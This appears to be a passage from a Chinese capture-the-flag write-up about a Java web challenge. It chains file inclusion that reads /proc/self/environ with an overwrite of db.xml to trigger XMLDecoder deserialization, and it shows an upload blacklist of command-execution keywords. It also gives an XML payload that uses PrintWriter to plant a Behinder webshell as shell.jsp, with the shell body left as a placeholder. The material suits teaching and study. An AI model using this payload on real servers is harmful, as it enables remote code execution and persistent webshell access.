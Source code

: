 可以发现注册业务中导入了 `com.web.dao.baseDao`，在其源码中用到了方法 `XMLDecoder`。

```java
public static void getConfig() throws FileNotFoundException {
    HashMap map;
    Object obj = new XMLDecoder(new FileInputStream(System.getenv("CATALINA_HOME") + "/webapps/ROOT/WEB-INF/db/db.xml")).readObject();
    if ((obj instanceof HashMap) && (map = (HashMap) obj) != null && map.get("url") != null) {
        driver = (String) map.get("driver");
        url = (String) map.get("url");
        username = (String) map.get("username");
        password = (String) map.get("password");
    }
}
```

其中 `System.getenv("CATALINA_HOME")` 可以使用前面的文件包含读取 `/proc/self/environ` 得到为 `/usr/local/tomcat`。因此可以尝试将 db.xml 覆盖为恶意代码后使用注册业务触发 XMLDecoder 反序列化。上传业务中还对上传的内容执行了检测。

```java
private static boolean checkContent(InputStream item) throws IOException {
        String[] blackList;
        boolean flag = false;
        BufferedReader bf = new BufferedReader(new InputStreamReader(item));
        StringBuilder sb = new StringBuilder();
        while (true) {
            String line = bf.readLine();
            if (line == null) {
                break;
            }
            sb.append(line);
        }
        String content = sb.toString();
        for (String str : new String[]{"Runtime", "exec", "ProcessBuilder", "jdbc", "autoCommit"}) {
            if (content.contains(str)) {
                flag = true;
            }
        }
        return flag;
    }
}
```

此时考虑使用 hint 中提到的 `PrintWriter` 去写入冰蝎的一句话，构造出如下载荷上传。

```xml
<?xml version="1.0" encoding="utf-8"?>
<java class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter">
        <string>/usr/local/tomcat/webapps/ROOT/static/shell.jsp</string>
        <void method="println">
            <string><![CDATA[冰蝎的载荷]]></string>
        </void>
        <void method="close"/>
    </object>
</java>
```
